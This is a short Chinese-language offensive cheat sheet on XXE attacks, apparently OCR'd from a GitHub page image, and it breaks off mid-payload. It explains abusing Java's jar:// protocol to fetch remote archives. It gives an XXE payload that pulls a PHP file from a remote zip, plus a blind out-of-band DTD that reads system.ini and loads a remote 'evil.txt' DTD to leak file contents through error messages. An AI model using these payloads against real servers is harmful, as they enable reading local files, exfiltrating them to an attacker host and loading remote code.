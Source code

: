 Dos攻击

文件上传：

- **jar:// 协议的格式：**`jar:{url}!{path}`

- **实例：**

- ```
    jar:http://host/application.jar!/file/within/the/zip
    
    这个 ! 后面就是其需要从中解压出的文件
    ```

- jar 能从远程获取 jar 文件，然后将其中的内容进行解压，等等，这个功能似乎比 phar 强大啊，phar:// 是没法远程加载文件的。

- **jar 协议处理文件的过程：**

    (1) 下载 jar/zip 文件到临时文件中
    (2) 提取出我们指定的文件
    (3) 删除临时文件

- **那么我们怎么找到我们下载的临时文件呢？**

    - 因为在 java 中 file:/// 协议可以起到列目录的作用，所以我们能用 file:/// 协议配合 jar:// 协议使用

- 大概的payload如下：

    ```
    <!DOCTYPE convert [ 
    <!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
    ]>
    <convert>&remote;</convert>
    ```

    



## 无回显XXE

> [利用Blind XXE Getshell](https://xie1997.blog.csdn.net/article/details/104933799)
>
> https://articles.zsxq.com/id_85l86vkeu8zf.html

**xxe oob：**

**Error with Local DTD**

**file协议+http协议 报错输出文件的值：**

- 利用file协议读取文件，http协议将读取到的值当作url的参数，因为url里面参数值未转义，导致url是非法的，会报错输出文件的值

- ```xml-dtd
    <?xml version="1.0"?>
    
    <!DOCTYPE ANY [
        <!ENTITY % fileparam SYSTEM 'file:///c:/windows/system.ini'>
        <!ENTITY % remote SYSTEM 'http://172.17.21.165:8000/evil.txt'>
        %remote;
        %all;
    ]>
    <a>&send;</a>
    
